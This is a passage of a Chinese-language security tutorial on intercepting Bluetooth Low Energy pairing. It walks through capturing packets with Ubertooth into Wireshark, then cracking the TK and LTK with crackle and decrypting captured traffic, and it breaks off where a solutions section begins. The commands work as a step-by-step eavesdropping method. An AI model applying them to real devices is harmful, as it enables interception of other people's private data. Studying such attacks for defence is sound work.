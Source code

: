 ![](http://drops.javaweb.org/uploads/images/3af826bd183f21cae6d93977ab433b127de6c0dc.jpg)

在这里我们装扮成了一个心率计算设备。试图进行匹配。在这个时候攻击者需要提前准备。你可以选择使用pipe来实现实施监听。

`root@kali:~# mkfifo /tmp/pipe`

打开wireshark

`Capture -> Options -> Manage Interfaces -> New`

输入 /tmp/pipe

点击start开始监听。

然后千万别忘了把ubertooth抓到的内容输出到pipe

`root@kali:~# ubertooth-btle -f -c /tmp/pipe`

最最后，不要忘了这一步。不然你抓到的包根本看不成

`Edit → Preferences → Protocols → DLT_USER → Edit → New`

在payload protocol中输入btle

`ok → ok`

如果你想把抓好的包带回家慢慢整，你可以简单的包抓取的内容输出到某个目录下

`ubertooth-util -r ; ubertooth-btle -f -c /output.pcap`

抓到包之后我们最关心的问题是我们有没有抓到的足够的包来破解tk。所以在wireshark中你可以在filter处加上btsmp，确保抓到了我们需要的6个包。

![](http://drops.javaweb.org/uploads/images/3e2485d378946539256518ed74b751c3c523505e.jpg)

确定抓到了包之后我们去下载神器crackle。

```
Git clone https://github.com/mikeryan/crackle.git
cd crackle
make
make install

```

安装完成后，开始借助cracle和我们抓到的包依次破解tk和ltk

![](http://drops.javaweb.org/uploads/images/d9be7aaba5bb4d77989941f2e4aefa88502911bd.jpg)

从上图中我们可以看到我们不但破解了tk，还利用利用tk和其它一些数据成功的还原出了ltk。

接下来我们再来试试利用获取的ltk来破解其他的加密包。假设我们在配对过程中已经拿到了`ltk=7f62c053f104a5bbe68b1d896a2ed49c`

`crackle -l 7f62c053f104a5bbe68b1d896a2ed49c -i test44.pcap -o test66.pcap`

![](http://drops.javaweb.org/uploads/images/89d082f790bed8ebfd1c8cd89cec8e06ef3d0e56.jpg)

可以看到我们成功地破解了7个包。

0x06 解决方案
=====
